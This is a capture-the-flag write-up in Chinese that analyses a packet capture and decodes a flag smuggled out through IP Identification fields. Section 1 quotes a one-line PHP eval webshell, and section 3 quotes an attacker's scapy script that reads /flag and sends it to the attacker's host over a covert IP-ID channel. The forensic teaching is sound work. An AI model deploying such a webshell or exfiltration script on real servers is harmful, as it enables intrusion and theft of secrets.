




# Misc · stolen.pcapng 流量分析（IP ID 隐蔽信道）—— Writeup

> 分类：Misc / 流量分析
> 附件：`stolen.pcapng`（62,384 字节，255 个包，以太网）
> 做题日期：2026-10-25
> Flag：`flag{this_is_stolen_secret!!!}`

---

## 30 秒速查卡

```
1  统计 → 协议分级：IPv4 253 帧，但 TCP 180 + ICMP 39 + UDP 3 = 222
   -> 253 - 222 = 31 帧"裸 IP 包"，没有上层协议  <-- 这就是异常点
2  过滤 ip.proto == 0
3  每个裸包取 ip.id：字符 = id // 256，位置 = id % 256
4  按位置排序拼接 -> flag{this_is_stolen_secret!!!}
```

一行解码（PowerShell + tshark）：

```powershell
$ts = "D:\Program Files\Wireshark\tshark.exe"
& $ts -r stolen.pcapng -Y "ip.proto==0 and not icmp" -T fields -e ip.id -E occurrence=f |
  ForEach-Object { $v = [Convert]::ToInt32($_, 16); [pscustomobject]@{ pos = $v -band 255; ch = [char]($v -shr 8) } } |
  Sort-Object pos | ForEach-Object { $_.ch } | Join-String
```

Wireshark GUI 版：过滤器输 `ip.proto == 0`，右键列头加一列 `ip.id`，肉眼对 `id//256` 和 `id%256`。

---

## 1. 这个流量讲了一个什么故事

攻击者（`192.168.159.138`）打目标服务器 `afctf.hack`（`192.168.159.136`，Apache/PHP）：

| 时间 | 动作 | 说明 |
|------|------|------|
| 02:12:30 | `GET /` | 探测首页（200，gzip 返回） |
| 02:12:37 | POST multipart | 上传 **hack2.php** 一句话木马 `<?php @eval($_GET[1]);?>` |
| 02:12:37 | POST multipart | 上传 **flag.txt**，内容 `flag{xxxx}` —— ⚠️ **干扰项** |
| 02:12:50 | POST multipart | 上传 **hack.py**：读服务器 `/flag`，用 **IP 包 ID 字段**逐字符外传 |
| 02:12:54 | ICMP echo | 字母串 ping（连通性测试，与 flag 无关） |
| 02:13:11+ | `GET /upload/` | 浏览上传目录，确认三个文件都在 |



> 上图是当时的真实截图：前 42 个包全是正常 HTTP，红色/黑色的 `RST`、`TCP Retransmission`、`Dup ACK` 只是 Wireshark 默认着色，是攻击者粗暴断连产生的噪音。

## 2. 第一步：先看全局，找"不该存在"的东西



```
frame                                    frames:255 bytes:53555
  eth                                    frames:255 bytes:53555
    ip                                   frames:253 bytes:53453
      tcp                                frames:180 bytes:48749
        http                             frames:40  bytes:16392
      icmp                               frames:39  bytes:2514
      udp                                frames:3   bytes:330
    arp                                  frames:2   bytes:102
```

算一遍：`253 - (180 + 39 + 3) = 31`。
**这 31 帧只有 IP 头、没有任何上层协议** —— 正常通信几乎不会出现裸 IP 包（`proto=0` 是 HOPOPT，没人这么发）。

这就是本题的命门：**异常不在内容里，在"缺了什么"里。**

## 3. 第二步：读脚本（编码方式就写在明面上）

HTTP 上传走 `multipart/form-data`，文件内容**原样**放在请求体里，所以抓包里能直接读到攻击者的完整作案脚本：

```python
from scapy.all import *
with open('/flag', 'r') as f:
    s = f.readline()
    count = 1
    for i in s:
        res = ord(i) * 16 * 16 + count        # ord(字符)*256 + 位置
        count += 1
        ip = IP(dst="192.168.159.138", id=res) # 藏进 IP Identification
        send(ip, iface="eth0")                 # 发一个无传输层的裸 IP 包
```

解码公式直接反推：

```
字符 = id // 256      （高 8 位 = ASCII 码）
位置 = id % 256       （低 8 位 = 第几个字符，从 1 开始）
```

> **流量分析第一原则：看到可疑脚本一定要读。** 编码方式往往就写在里面。

## 4. 第三步：解码



| 帧 | ip.id | 位置 | ASCII | 字符 | 累积 |
|---|---|---|---|---|---|
| 136 | 26113 | 1 | 102 | `f` | `f` |
| 138 | 27650 | 2 | 108 | `l` | `fl` |
| 140 | 24835 | 3 | 97 | `a` | `fla` |
| 142 | 26372 | 4 | 103 | `g` | `flag` |
| 144 | 31493 | 5 | 123 | `{` | `flag{` |
| … | … | … | … | … | … |
| 196 | 32030 | 30 | 125 | `}` | `flag{this_is_stolen_secret!!!}` |
| 198 | 2591 | 31 | 10 | `\n` | （readline 把换行也读进来了） |

完整结果：**`flag{this_is_stolen_secret!!!}`**

### 为什么 id 一看就是人造的



正常操作系统分配 `ip.id` 是**递增计数器**（本题攻击者机器自己的 id 就是 3090、3092、3093… 连续递增）。
而这些包的 id 是 26113、27650、24835、26372…… 完全乱序 —— 因为它们是"按字符挑的"。

## 5. 干扰项分析（新手最容易卡在这）

| 干扰项 | 出现在哪 | 为什么不是答案 |
|---|---|---|
| `flag{xxxx}` | hack.py 之前上传的 `flag.txt` | 内容是占位符；真正的目标是服务器上的 `/flag` |
| `abcdefghijklmnopqrstuvwabcdefghi` | 包 #43，ICMP echo 的载荷 | 只是 ping 测连通性 |
| 40 帧 HTTP | 全程 | 正常上传/浏览，明文里没有 flag |

> **为什么 flag 不出现在字符串搜索里？** 因为它存在 **IP 头字段**里（二进制），不在载荷里。
> 字符串扫描只看载荷中连续可打印字符，当然搜不到 —— 这正是隐蔽信道的意义：**数据伪装成不像数据的东西**。

## 6. 在 Wireshark GUI 里复现同样步骤

| 分析步骤 | GUI 操作 |
|---|---|
| 看整体结构 | `统计 → 协议分级`（Protocol Hierarchy） |
| 看故事线 | 找上传请求 → 右键 `追踪 → HTTP 流` |
| 关键字搜索 | `Ctrl+F` → 选 "Packet details" → 输入 `flag` |
| 找裸 IP 包 | 过滤器 `ip.proto == 0` |
| 看 id 字段 | 右键列头 → `列首选项` → 添加 `ip.id` |
| 看 ICMP 载荷 | 过滤器 `icmp`，点开 ping 包看数据区 |

## 7. 原理：隐蔽信道（Covert Channel）

```
正常用途：IP Identification 是分片标识，把同一数据报的多个分片串起来
本题滥用：把它当成 16 位字母表，高 8 位放字符、低 8 位放序号
为什么可行：没有任何机制校验"这个字段的值合不合理"
```

同类可以藏数据的 IP 头字段：

| 字段 | 位数 | 常见题型 |
|---|---|---|
| Identification | 16 | **本题** |
| TTL | 8（常只用低 2 位） | `63/127/191/255` → `00/01/10/11` |
| TOS / DSCP | 8 | 少见 |
| Flags + Fragment Offset | 3 + 13 | 少见 |
| IP Options | 变长 | 罕见 |
| TCP ISN / 窗口大小 / 时间戳 | 32 / 16 | 也有题 |

## 8. 通用套路（背下来）

```
1 统计视图看题型（协议分级）
2 字符串扫描找故事线（谁、在干嘛、传了什么）
3 看到脚本/加密代码 -> 读它！编码方式往往就在里面
4 关键字搜索（flag/key/ctf），但要分析命中来自哪里（小心干扰项）
5 逐包看结构异常：协议号异常、字段值异常、方向异常、节奏异常
6 按脚本逻辑解码字段，验证格式完整性
```

## 9. 进阶思考

- 攻击者把 id 用异或/加密再发怎么破？（先看 ICMP 回包的数量和时间规律找包边界）
- 如果流量是 TLS 加密的怎么办？（看证书、看 SNI、看 DNS、看包长分布）
- 为什么每个裸包后面都跟一条 ICMP？
  因为 `proto=0` 没有程序监听，对端回 `destination unreachable` —— 这些 ICMP **反过来证实了每个裸包都到达了**。

## 10. 附：纯 Python 复现脚本

工作区 `stolen_analysis\` 里有两个脚本（当时机器上还没装 tshark，所以是纯 Python 解析 pcapng）：

```powershell
python 01_scan.py      # 结构解析 + 字符串扫描（快速定位故事线）
python 02_parse.py     # 包级解析 + IP ID 信道解码 + TCP 流还原
```
